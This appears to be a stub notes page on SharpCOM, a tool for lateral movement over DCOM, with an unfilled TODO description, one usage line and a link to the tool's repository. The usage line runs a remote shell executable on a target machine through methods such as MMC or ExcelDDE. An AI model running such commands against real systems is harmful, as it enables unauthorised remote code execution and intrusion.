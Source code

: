 # SharpCOM

TODO: Fill this info

```
C:\> SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\remote\shell.exe"
```

---
## References

- [SharpCOM](https://github.com/rvrsh3ll/SharpCOM)